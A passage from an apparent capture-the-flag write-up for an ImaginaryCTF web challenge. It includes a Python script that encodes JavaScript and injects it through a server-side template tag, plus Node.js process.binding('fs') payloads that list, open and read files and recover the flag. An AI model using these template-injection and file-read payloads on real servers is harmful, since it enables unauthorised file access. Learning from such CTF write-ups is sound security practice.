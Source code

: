 ```python
  else:
   sign = "-"
  
  diff = abs(c-s)
  if diff >= 9:
   r += sign+"9"
  elif diff >= 8:
   r += sign+"9"
  elif diff >= 2:
   r += sign+"2"
  else:
   r += sign+"2/2"
  
  s = eval(r)
 payload += r+"," if ind != len(a)-1 else r

payload = "eval(String.fromCharCode("+payload+"))" 
req = requests.get(f"http://1337.chal.imaginaryctf.org/?text=%3C%25%3D{urlencode(payload)}%25%3E&dir=from")
soup = BeautifulSoup(req.text, "html.parser")
try:
    result = soup.body.main.h1.text
    print(result)
except:
    print('invalid JS code')
```

Finally we can get the flag!  <br>

- Read files in dir


```javascript
 (()=>{ return process.binding('fs').readdir(".", (err, files) => {}, undefined, undefined, undefined).toString()})()
 ```

- open flag --> this will return file descriptor
```javascript
(()=>{ let fid = process.binding('fs').open('FL46_7BVY31.7X7', 0, 0o666, undefined, undefined); return fid;})()
```
- read flag <-- put file descriptor as arg in read()
```javascript
 (()=>{ var buffer = new Buffer(100); process.binding('fs').read(27, buffer, 0, 100, 0, undefined, undefined); return buffer.toString();})()
```
 All these payloads should be crafted with the py script that I mentioned above.

**flag** 
>ictf{M0J0_15N7_0N_P4YL04D54LL7H37H1N65}




## Democracy 
This task is supposed to be one of the hardest (in this CTF), but it was not implemented properly, which make it super ez for me. 
### Task description
